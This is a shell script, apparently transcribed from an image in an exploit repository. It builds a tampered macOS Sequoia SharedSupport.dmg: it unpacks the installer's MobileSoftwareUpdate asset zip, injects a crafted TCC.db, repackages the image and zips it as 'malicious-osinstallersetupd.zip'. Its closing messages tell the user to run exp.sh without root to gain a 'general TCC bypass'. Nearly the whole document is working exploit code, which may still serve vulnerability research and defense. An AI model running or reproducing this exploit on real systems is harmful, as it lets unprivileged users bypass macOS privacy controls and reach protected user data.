 ```shell

mkdir /Applications/testfolder/target/SharedSupport
hdiutil attach -nobrowse -mountpoint /Applications/testfolder/mountme /Applications/Install\ macOS\ Sequoia.app/Contents/SharedSupport/SharedSupport.dmg
mkdir /Applications/testfolder/allfiles
cd /Applications/testfolder/mountme/
find . -type f ! -name '7d763b0793c8e214f2d9bb078a0cba7b470e57e2.zip' -print0 | cpio -pdmv0 /Applications/testfolder/allfiles/  >/dev/null 2>&1
cd /


hdiutil detach /Applications/testfolder/mountme
rm -rf /Applications/testfolder/mountme

mkdir /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip
unzip /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/45a6023255867c23693640cb27c53c3a39b6764d.zip -d /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip >/dev/null 2>&1

cd $workpath

echo "Add malicious content to the zip."
cp TCC.db /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip/TCC.db

cd /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip
zip -r /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip.zip ./* >/dev/null 2>&1

rm -rf /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip
rm -rf /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/45a6023255867c23693640cb27c53c3a39b6764d.zip
cd /
mv /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/tmpZip.zip /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/45a6023255867c23693640cb27c53c3a39b6764d.zip


cp /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/45a6023255867c23693640cb27c53c3a39b6764d.zip /Applications/testfolder/allfiles/com_apple_MobileAsset_MacSoftwareUpdate/7d763b0793c8e214f2d9bb078a0cba7b470e57e2.zip

hdiutil create -volname "Shared Support" -srcfolder "/Applications/testfolder/allfiles" -ov -format UDZO "/Applications/testfolder/target/SharedSupport/SharedSupport.dmg"

echo "Done. Malicious SharedSupport.dmg created."
echo "Now, Compress the target folder and name it as malicious-osinstallersetupd.zip"

cd /Applications/testfolder/
zip -ry "$workpath/malicious-osinstallersetupd.zip" ./target >/dev/null 2>&1

rm -rf /Applications/testfolder
echo "========================================================================"
echo "Init done. You have created your own malicious app with your own payload!"
echo "========================================================================"
echo "Place it under pre-compiled-malicious-app and execute pre-compiled-malicious-app/exp.sh in non-root context to gain general TCC bypass."
echo "========================================================================"
echo "NOTICE: The exploit doesn't need the root access. This vulnerability can help normal user achieve general TCC on macOS. I think it has been existed for years."
```